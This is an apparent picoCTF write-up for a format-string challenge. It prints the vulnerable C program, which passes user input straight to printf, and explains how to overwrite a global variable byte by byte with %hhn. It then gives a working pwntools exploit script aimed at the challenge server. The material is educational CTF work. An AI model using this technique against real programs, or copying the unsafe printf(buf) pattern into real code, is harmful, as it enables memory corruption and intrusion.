


The binary can be downloaded here.
Doing a checksec of the binary revealed that it didn't have PIE enabled.

The source code is of said binary as below.
#include
int sus = 0x21737573;
int main() {
char buf[1024];
char flag[64];
printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
fflush(stdout);
scanf("%1024s", buf);
printf("Here's your input: ");
printf(buf);
printf("\n");
fflush(stdout);
if (sus == 0x67616c66) {
printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");
// Read in the flag
FILE *fd = fopen("flag.txt", "r");
fgets(flag, 64, fd);
printf("%s", flag);
fflush(stdout);
}
else {
printf("sus = 0x%x\n", sus);
printf("You can do better!\n");
fflush(stdout);
}
return 0;
}
I could observe that the winning condition was to change the value of global variable sus to 0x67616c66 via the format string bug
present. On my first attempt I tried to use the %n format specifier in combination with %d to change the value of
sus in one go, but printing a padding of size 0x67616c66 was proven to be too slow. So I decided to utilize the %hhn specifier to
change each byte of sus separately. Below is a diagram of the stack and the payload that I used.

The exploit code is as below.
#!/usr/bin/python3
from pwn import *
def ex():
context.log_level = "debug"
p = remote("rhea.picoctf.net", 57107)
p.recvline()
p.sendline( b"%97d%20$hhn" + b"A"*5
+b"%21$hhn" + b"A"
+b"%22$hhn" + b"A"*5
+b"%23$hhn" + b"A"*5
+p64(0x404062) + p64(0x404060) + p64(0x404063) + p64(0x404061))
p.interactive()
if __name__ == "__main__": ex()